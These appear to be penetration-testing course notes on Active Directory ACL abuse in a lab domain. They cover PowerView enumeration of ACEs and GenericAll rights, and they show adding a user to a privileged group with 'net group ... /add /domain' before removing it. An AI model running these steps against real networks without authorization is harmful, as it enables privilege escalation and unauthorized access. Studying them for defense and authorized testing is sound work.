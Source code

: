 List of interesting ACE & descriptions:
	- GenericAll: Full permissions on object
	- GenericWrite: Edit certain attributes on the object
	- WriteOwner: Change ownership of the object
	- WriteDACL: Edit ACE's applied to object
	- AllExtendedRights: Change password, reset password, etc.
	- ForceChangePassword: Password change for object
	- Self (Self-Membership): Add ourselves to for example a group

Mostly interested in:
	- ActiveDirectoryRights 
	- SecurityIdentifier 
Example:
- We can use **Get-ObjectAcl** to enumerate ACEs with PowerView.
	- Ex: `Get-ObjectAcl -Identity stephanie`
- Two SIDs
	- Use PowerView's **Convert-SidToName** command to convert ObjectSID to an actual domain object name:
		- `Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104`
		- output -> CORP\stephanie
	- Convert other SID to name
		- `Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553`
		- output -> CORP\RAS and IAS Servers
			-  the RAS and IAS Servers group has ReadProperty access rights to our user.
- `We can continue to use **Get-ObjectAcl** and select only the properties we are interested in, namely ActiveDirectoryRights and SecurityIdentifier. While the ObjectSID is nice to have, we don't need it when we are enumerating specific objects in AD since it will only contain the SID for the object we are in fact enumerating.`
- `Although we should enumerate all objects the domain, let's start with the Management Department group for now.`
- We will check if any users have GenericAll permissions.
	- `Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights`
		- **-eq** flag to filter the **ActiveDirectoryRights** property
		-  only displaying the values that equal **GenericAll**.
		- then pipe the results into **select**, only displaying the **SecurityIdentifier** and **ActiveDirectoryRights** properties
		- output -> a handful of SIDs

- In this case, we have a total of five objects that have the GenericAll permission on the Management Department object. To make sense of this, let's convert all the SIDs into actual names:
	- ```"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName```

- Example use of abusing GenericAll Perms (found out from our user)
	- **add ourselves to Management Group**
		- `net group "Management Department" stephanie /add /domain`
	- verify
		- `Get-NetGroup "Management Department" | select member`
	- clean up after ourselves by removing our user from the group
		- `net group "Management Department" stephanie /del /domain`
	- verify
		- `Get-NetGroup "Management Department" | select member`
